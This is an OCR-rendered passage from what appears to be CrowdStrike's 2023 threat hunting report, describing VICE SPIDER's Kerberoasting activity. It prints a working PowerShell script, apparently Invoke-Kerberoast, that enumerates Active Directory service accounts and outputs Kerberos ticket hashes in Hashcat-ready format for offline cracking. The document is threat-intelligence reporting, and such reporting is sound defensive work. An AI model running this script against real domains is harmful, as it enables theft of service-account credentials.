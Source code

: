 After this, the adversary executed a script to perform a Kerberoasting attack and enumerate SPNs. VICE SPIDER’s 
likely goal was to capture these SPNs to identify Windows service accounts and extract the password hashes. This 
was confirmed when Falcon OverWatch found the adversary using the Hashcat tool in an attempt to brute\-force the 
password hashes.

Snippet of a script execution in an attempt to enumerate SPNs 

$Null \= \[Reflection.Assembly]::LoadWithPartialName( 'System.IdentityModel' ); $search 

\= New\-Object DirectoryServices.DirectorySearcher( \[ADSI]'' ); $search.filter \= 

'(\&(servicePrincipalName\=\*)(objectCategory\=user))'; $results \= $search.Findall(); foreach ( 

$results in $results ) { $u \= $results.GetDirectoryEntry(); $samAccountName \= $u.samAccountName; 

foreach ( $s in $u.servicePrincipalName )

© 2023 CrowdStrike, Inc. All rights reserved. NOWHERE TO HIDECROWDSTRIKE 2023 THREAT HUNTING REPORT 
13

The following is an expanded version of the script above, which was determined to be associated with the Invoke\-
Kerberoast.ps1 PowerShell script. The Kerberoasting activity below involves Active Directory being queried to 
request the username and SPN associated with accounts that have an SPN set. The $TicketHexStream variable is 
storing the hexadecimal value of the Kerberos service ticket, which is then processed to extract a hash that can be 
used for offline password cracking. 

$Null \= \[Reflection.Assembly]::LoadWithPartialName( 'System.IdentityModel' ); $search 

\= New\-Object DirectoryServices.DirectorySearcher( \[ADSI]'' ); $search.filter \= 

'(\&(servicePrincipalName\=\*)(objectCategory\=user))'; $results \= $search.Findall(); 

foreach ( $results in $results ) { $u \= $results.GetDirectoryEntry(); $samAccountName \= 

$u.samAccountName; foreach ( $s in $u.servicePrincipalName ) { $Ticket \= $null; try { $Ticket 

\= New\-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken \-ArgumentList $s; 

} catch \[System.Management.Automation.MethodInvocationException] {} if ( $Ticket \-ne $null 

) { $TicketByteStream \= $Ticket.GetRequest(); if ( $TicketByteStream ) { $TicketHexStream 

\= \[System.BitConverter]::ToString( $TicketByteStream ) \-replace '\-'; \[System.Collections.

ArrayList]$Parts \= ( $TicketHexStream \-replace '^(.\*?)04820\...(.\*)', '$2' ) \-Split 'A48201'; 

$Parts.RemoveAt( $Parts.Count \- 1 ); $Hash \= $Parts \-join 'A48201'; try { $Hash \= $Hash.Insert( 

32, '$' ); $HashFormat \= '$krb5tgs$23$\*' \+ $samAccountName \+ '/' \+ $s \+ '\*$' \+ $Hash; Write\-Host 

$HashFormat; break; } catch \[System.Management.Automation.MethodInvocationException] {} } } } }

© 2023 CrowdStrike, Inc. All rights reserved. NOWHERE TO HIDECROWDSTRIKE 2023 THREAT HUNTING REPORT14
